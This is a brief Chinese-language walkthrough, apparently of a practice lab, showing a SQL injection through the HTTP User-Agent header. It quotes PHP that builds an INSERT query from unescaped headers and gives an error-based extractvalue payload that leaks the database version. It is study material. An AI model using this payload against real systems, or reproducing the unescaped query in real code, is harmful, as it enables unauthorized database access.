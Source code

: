 

分析源码，可以看到，源码对

```sql
$uagent = $_SERVER['HTTP_USER_AGENT'];
$IP = $_SERVER['REMOTE_ADDR'];
...
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

UA,和ip没有进行限制，可以进行注入。

也就是说我们通过修改http的头部信息可以达到SQL注入的效果。



登录之后，修改UA数值为：fuck 可得

<img src="https://s2.loli.net/2022/11/25/2VHSaUesGZpfw4N.png" alt="image-20221111105655834" style="zoom: 50%;" />



![image-20221111105719610](https://s2.loli.net/2022/11/25/9UI2h6czwdGkBNQ.png)



那我们将 user-agent 修改为注入语句呢？
将 user-agent 修改为

```
'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
```

<img src="https://s2.loli.net/2022/11/25/VHmOiGSINZ8nsWU.png" alt="image-20221111105850994" style="zoom:50%;" />



可以看到我们已经得到了版本号。

![image-20221111105937233](https://s2.loli.net/2022/11/25/tpUYKlqZuTyaDAG.png)
